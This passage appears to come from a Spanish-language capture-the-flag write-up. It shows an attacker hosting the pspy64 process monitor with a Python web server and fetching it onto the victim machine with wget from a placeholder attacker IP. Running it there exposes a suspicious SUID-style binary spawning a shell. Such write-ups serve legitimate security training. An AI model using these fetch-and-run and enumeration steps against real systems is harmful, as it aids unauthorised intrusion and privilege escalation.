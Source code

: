 Info:

```
gcc (Debian 8.3.0-6) 8.3.0
Copyright (C) 2018 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
```

Vemos que si lo tenemos, ahora nos vamos a pasar el binario de `pspy64` para ver los procesos que se estan corriendo por dentro a nivel de sistema, para investigar un poco.

URL = [Download pspy64](https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64)

> host

```shell
python3 -m http.server 80
```

> Maquina victima

```shell
cd /tmp
wget http://<IP_ATTACKER>/pspy64
```

Ahora lo ejecutaremos de la siguiente forma:

```shell
./pspy64
```

Info:

```
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2025/05/09 09:59:46 CMD: UID=1001  PID=835    | ./pspy64 
2025/05/09 09:59:46 CMD: UID=0     PID=834    | 
2025/05/09 09:59:46 CMD: UID=0     PID=817    | 
2025/05/09 09:59:46 CMD: UID=0     PID=782    | 
2025/05/09 09:59:46 CMD: UID=1001  PID=780    | /bin/bash 
2025/05/09 09:59:46 CMD: UID=1001  PID=779    | sh -c /bin/bash 
2025/05/09 09:59:46 CMD: UID=1001  PID=778    | /home/suidy/suidyyyyy 
2025/05/09 09:59:46 CMD: UID=0     PID=724    | 
2025/05/09 09:59:46 CMD: UID=1000  PID=719    | -bash 
2025/05/09 09:59:46 CMD: UID=1000  PID=718    | sshd: theuser@pts/0  
2025/05/09 09:59:46 CMD: UID=1000  PID=710    | (sd-pam) 
2025/05/09 09:59:46 CMD: UID=1000  PID=709    | /lib/systemd/systemd --user 
2025/05/09 09:59:46 CMD: UID=0     PID=706    | sshd: theuser [priv] 
2025/05/09 09:59:46 CMD: UID=33    PID=425    | nginx: worker process                            
```